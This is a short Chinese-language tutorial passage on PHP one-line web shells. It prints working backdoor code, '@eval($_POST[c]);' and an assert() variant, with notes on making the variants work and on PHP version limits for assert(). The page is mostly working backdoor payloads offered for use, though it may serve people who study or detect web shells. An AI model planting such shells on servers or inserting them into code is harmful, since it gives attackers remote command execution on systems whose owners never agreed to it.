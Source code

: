 所以最终一句话木马写成这样：
``` php
<?php
@eval($_POST[c]);
?>
```
一句话木马文件：

![title](https://leanote.com/api/file/getImage?fileId=5da7df02ab64416c4c00045b)

执行效果：

![title](https://leanote.com/api/file/getImage?fileId=5da7ded4ab64416c4c000419)


![title](https://leanote.com/api/file/getImage?fileId=5da7e4c5ab64416e470008b0)




# 一句话木马变形

`注意：` 超全局变量方括号内必须打引号。

 - `$_POST[c]` 错误！ 
 - `$_POST['c']` 正确。


 ---------------
 
 
## assert 函数

 
assert 这个函数在 php 语言中是用来判断一个表达式是否成立。返回 true or false；assert 函数的参数会被执行，这跟 eval() 类似。

![title](https://leanote.com/api/file/getImage?fileId=5da7f031ab64416c4c000f30)

注意： `assert` 函数

``` php
<?php
@assert($_POST['c']);
?>
```

 ---------------
 
 
## assert 函数的具体限制

在 php 7.2 版本说明中，提到：

![title](https://leanote.com/api/file/getImage?fileId=5da826a4ab64416c4c002aa1)

也就是说：给 assert() 函数传入字符串参数，这个特性在 7.2 禁用，在 8.0 版本时会被彻底删除。
